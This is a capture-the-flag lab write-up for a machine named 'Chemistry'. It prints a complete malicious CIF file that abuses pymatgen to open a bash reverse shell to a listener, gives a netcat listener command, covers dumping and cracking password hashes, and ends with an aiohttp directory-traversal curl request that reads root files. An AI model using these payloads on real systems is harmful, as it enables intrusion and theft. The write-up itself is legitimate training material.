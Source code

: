 # Chemistry (Linux)

Target IP Address 10.10.11.38

ran `nmap -sVC 10.10.11.38`

## Results (from nmap)
Two open port numbers:
1. 22 (SSH)
2. 5000 (HTTP)

## 5000 (HTTP)
From the very beginning we see a web page that displays
> Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.
with Login and Register buttons, both have a directory/path that it takes you to. 

Tried to use username, password to login and no luck. 

Inspected the webpage and looked at the source code for anything useful.
Went over to storage and foudn that under cookies that have left a session key, xss attack?

Before that, I wanted to try and see what the register button does; put in a username and a password and it register you right away. 
We can instantly see that it allows us to upload a CIF file. 

## CIF exploit
Once I saw that we can upload a file that alwaus just means that is a perfect opporunity to try and exploit it.
Googled "CIF file exploit" and came acroos this [GitHub](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

**Let's rememeber the fact that the webpage when we register also gave an CIF example file to download (An example is available here) with a link that downloads the file**

From the code that we found in this github link; we can use this to insert it into our CIF example file. 
1. The .cif file is supposed to store crystallographic data for molecular structures.
2. Instead of purely scientific data, it injects Python code through the os.system() function.
3. `"__builtins__.__import__('os').system('/bin/bash -c \"sh -i >& /dev/tcp/youripaddress/portlisternernumber 0>&1\"')"` 

THE FINAL .cif WILL LOOK LIKE THIS

`data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

 _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.202/7777 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

`

Once all this is done we can go ahead an upload our .cif file.
Start a Netcat listener (make sure the port number is all the same) `nc -lvnp 7777`.
Click on view and this will trigger the reverse shell, establashing a connection back to our ip address. 

From here you want to look/search for anything useful. 
`ls -la` lists all files and directories (including hidden ones) in long format, showing detailed permissions, ownership, size, and modification time.

Notice a directory "instance"; `cd` into it and then we do the same as we did just now. `ls -la` and look for anything useful.
We come across database.db
Use `sqlite3 database.db`
`.tables` built-in SQLite command
`SELECT * FROM user;`
List of user names and MD5 hashed passwords will display.
[Crack MD5 hash passwords] (https://crackstation.net/)

I tried admin and the one after and did not work until I got to rosa and cracked the password.

## SSH
`ssh rosa@10.10.10.28`
Login with the password we just cracked.
Look for the user.txt flag

Once you found that we want to get more information from this machine and see what we find.
`cd ..` We see an app directory 
Able to notice that it is running a python application. 
Was not able to use `cat` on the .py file and could not get into the other directories.
We know it is running a python app so most likely in the development stages.
`curl localhost:8080 --head` Here we can see that it is running **aiohttp/3.9.1**; begin searching for known exploits related to this version.
Using the curl command we got from [here] (https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0), we will be able to run the exploit. 
Since all we are looking for is root.txt we add that into the command `curl -s --path-as-is "http://localhost:8081/static/../../../../../root/root.txt"`
404 is what is returned when running this command. /static does not exist so we for sure have to look for a path that does. 
If we `curl -s localhost:8080` and take a look at the code; we find that there is a directory/path called **assets**. Add it into the curl command and root.txt will display right under.


Simple solid CTF to start again after a long break; with great power comes great responsibility, stay ethical.

## Summary
The target machine (10.10.11.38) has two open ports: SSH (22) and HTTP (5000). The web page allows users to upload CIF files. Exploiting this, a malicious Python code was injected into a CIF file to create a reverse shell. After uploading the file, a netcat listener on port 7777 established a connection, allowing access to the machine.

In the "instance" directory, an SQLite database was found, revealing user data with MD5 hashed passwords. After cracking the password for "rosa," SSH was accessed, and further exploration led to the discovery of a Python application running on port 8080. A known exploit in the aiohttp version (3.9.1) was used to retrieve the root.txt flag.


